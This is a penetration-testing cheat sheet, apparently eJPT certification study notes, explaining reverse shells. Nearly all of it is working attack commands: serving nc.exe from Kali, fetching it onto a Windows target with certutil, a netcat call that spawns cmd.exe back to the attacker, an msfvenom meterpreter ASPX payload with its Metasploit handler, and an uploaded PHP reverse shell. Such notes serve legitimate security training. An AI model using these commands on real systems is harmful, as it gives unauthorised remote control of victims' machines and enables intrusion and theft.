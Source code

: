 
[[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

A **reverse shell** is a remote shell where the target connects back to the attacker's listener; it's effective since no tools are needed on the target, but embedding the attacker's IP in the payload can expose them during forensic analysis.

```shell
# Start a simple HTTP server on Kali to host nc.exe
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80

# Download nc.exe on the Windows Target
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# Set Up Netcat Listener on Kali (Attacker) - Starts a Netcat listener on port 1234 to receive the reverse shell
nc -nvlp 1234

# Connect Back to Kali from Windows (Reverse Shell)
nc.exe -nv <my_kali_IP> 1234 -e cmd.exe
# Connects back to the Kali listener and spawns a Windows cmd shell

# On the Kali system we can:
whoami
```

**ASPX shell**

```shell
# Let’s create the ASPX shell using msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local_IP> LPORT=1234 -f aspx > shell.aspx

# Upload the shell on the target.

# Use the msfconsole module /multi/handler to handle the incoming connection. 
# Set these three parameters: PAYLOAD , LHOST , and LPORT
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <local_IP>
set LPORT <port_number>

# Navigate to http://<target>/shell.aspx
# You should observe that we have successfully obtained the shell.
```

**PHP reverse shell**

```shell
cp /usr/share/webshells/php/php-reverse-shell.php .
# Update the IP address with my IP
# Update port number.

# e.g. Upload the file to SMB (target) using the put command.

# Start a Netcat listener
nc -lvnp 1234
 
 # Open the browser
 http://<target>/php-reverse-shell.php
```
